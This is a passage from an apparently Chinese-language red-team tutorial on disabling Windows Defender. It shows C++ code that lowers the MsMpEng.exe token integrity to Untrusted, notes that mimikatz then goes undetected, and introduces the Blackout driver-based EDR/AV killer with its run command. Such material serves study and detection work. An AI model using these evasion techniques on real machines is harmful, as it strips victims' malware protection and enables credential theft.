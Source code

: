     
    // 设置令牌完整性级别为 Untrusted  
    DWORD integrityLevel = SECURITY_MANDATORY_UNTRUSTED_RID;  
    SID integrityLevelSid{};  
    integrityLevelSid.Revision = SID_REVISION;  
    integrityLevelSid.SubAuthorityCount = 1;  
    integrityLevelSid.IdentifierAuthority.Value[5] = 16;  
    integrityLevelSid.SubAuthority[0] = integrityLevel;  
    TOKEN_MANDATORY_LABEL tokenIntegrityLevel = {};  
    tokenIntegrityLevel.Label.Attributes = SE_GROUP_INTEGRITY;  
    tokenIntegrityLevel.Label.Sid = &integrityLevelSid;  
    if (!SetTokenInformation(  
        ptoken,  
        TokenIntegrityLevel,  
        &tokenIntegrityLevel,  
        sizeof(TOKEN_MANDATORY_LABEL) + GetLengthSid(&integrityLevelSid)))  
    {  
        printf("SetTokenInformation failed\n");  
    }  
    else {  
        printf("[*] Token Integrity set to Untrusted\n");  
    }

### 运行测试

在WindowsServer2019上，使用管理员权限执行`Kill_WindowsDefender.exe`

![]()

随后用ProcespsHacker查看`MsMpEng.exe`的完整级别, 可以发现变成了`Untrusted`

将WindowsDefender设置为`Untrusted`级别后，运行mimikatz也不会出现报毒现象

![]()

但是这种方法只能在WindowsServer服务器上使用，无法在Windows10及以上版本使用

![]()

## 加载驱动关闭Defender(blackout)

### 项目描述

blackout项目地址：https://github.com/ZeroMemoryEx/Blackout

Blackout 是一个工具，旨在利用gmer驱动程序来禁用或杀死 EDR 和
AV，特别是那些受到反恶意软件保护的进程。这个工具需要在管理员的上下文中运行，并且可以流畅地绕过 HVCI。

需将驱动程序 `Blackout.sys` 和可执行文件放于同一路径，随后使用命令 `Blackout.exe -p <process_id>` 运行

### 项目分析

此项目主要涉及两个关键的函数，分别是`LoadDriver`和`DeviceIoControl`
